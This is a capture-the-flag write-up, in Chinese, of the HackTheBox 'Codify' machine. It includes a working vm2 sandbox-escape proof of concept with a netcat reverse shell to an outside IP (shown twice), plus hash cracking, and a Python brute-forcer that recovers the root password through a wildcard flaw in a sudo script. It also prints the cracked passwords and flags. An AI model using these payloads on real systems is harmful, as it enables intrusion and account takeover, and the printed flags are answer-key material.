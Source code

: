 HTB | Codify vm2@3.9.16 中的沙箱逃逸



使用nmap进行端口扫描

```
nmap -sV -sC -v -oN codify 10.10.11.239
```

```
# Nmap 7.93 scan initiated Mon Jan  8 16:36:49 2024 as: nmap -sV -sC -v -oN codify 10.10.11.239
Nmap scan report for 10.10.11.239
Host is up (1.2s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  8 16:37:28 2024 -- 1 IP address (1 host up) scanned in 39.77 seconds
```

将codify添加到hosts，访问80端口发现是vm2沙盒版本为3.9.16

![image-20240108172018517](../图片/image-20240108172018517.png)

搜索发现这个版本之前有爆过沙盒逃逸[vm2@3.9.16 中的沙箱逃逸](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244)

poc

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.24 5566  >/tmp/f');
}
`

console.log(vm.run(code));
```

直接用poc打

![image-20240108171612748](../图片/image-20240108171612748.png)

直接反弹shell

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.24 5566  >/tmp/f');
}
`

console.log(vm.run(code));
```

上传linpeas进行信息收集有一个数据库文件/var/www/contact/tickets.db

![image-20240108174927363](../图片/image-20240108174927363.png)



在/var/www/contact/tickets.db发现一个hash

```
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

![image-20240108175300981](../图片/image-20240108175300981.png)



使用hashid进行识别hash类型

```
hashid hash
```

![image-20240108180331339](../图片/image-20240108180331339.png)



使用hashcat进行进行破解，先查找使用什么模式进行破解

```
hashcat --help | grep Blowfish
hashcat -m 3200 hash
```



![image-20240108180212603](../图片/image-20240108180212603.png)

爆破不出来

直接用john

```
john --wordlist=/usr/share/wordlists/rockyou.txt  hash
```

![image-20240108181144638](../图片/image-20240108181144638.png)

```
spongebob1
```

使用ssh登录到joshua

```
ssh joshua@10.10.11.239
```

![image-20240108181407052](../图片/image-20240108181407052.png)

```
b2a63c4a87cbf5b958c5d3438ebd1aa3
```

上传linpeas进行信息收集



使用sudo -l有无可提权点

![image-20240108182720334](../图片/image-20240108182720334.png)

可以看见这个是一个备份mysql的脚本，用户是root，这里需要验证root密码

![image-20240108184547612](../图片/image-20240108184547612.png)



在其他wp 找到的破解root密码用python编写的脚本，使用gpt加上了注释使我更容易理解

```
# 导入string和subprocess模块
import string
import subprocess
# 创建一个列表，包含所有的字母和数字
all = list(string.ascii_letters + string.digits)
# 初始化一个空字符串，用来存储密码
password = ""
# 初始化一个布尔值，用来判断是否找到密码
found = False

# 当没有找到密码时，循环执行以下操作
while not found:
    # 遍历所有的字母和数字
    for character in all:
        # 构造一个命令，用echo输出当前的密码加上一个字符，然后用*表示剩余的字符，再用sudo执行一个脚本
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        # 用subprocess模块运行命令，并获取标准输出和标准错误
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        # 如果标准输出中包含"Password confirmed!"，说明找到了一个正确的字符
        if "Password confirmed!" in output:
            # 把这个字符加到密码字符串中
            password += character
            # 打印当前的密码
            print(password)
            # 跳出当前的循环，继续下一个字符的搜索
            break
    # 如果遍历完所有的字母和数字都没有找到正确的字符，说明密码已经完整
    else:
        # 把布尔值设为True，结束循环
        found = True
```



在tmp中创建py文件并执行

```
python3 123.py
```

![image-20240108185108945](../图片/image-20240108185108945.png)



使用kljh12k3jhaskjh12kjh3登录到root

```
su root
```

![image-20240108185224413](../图片/image-20240108185224413.png)

```
b6372d94001c98779d94687098d1b13a
```

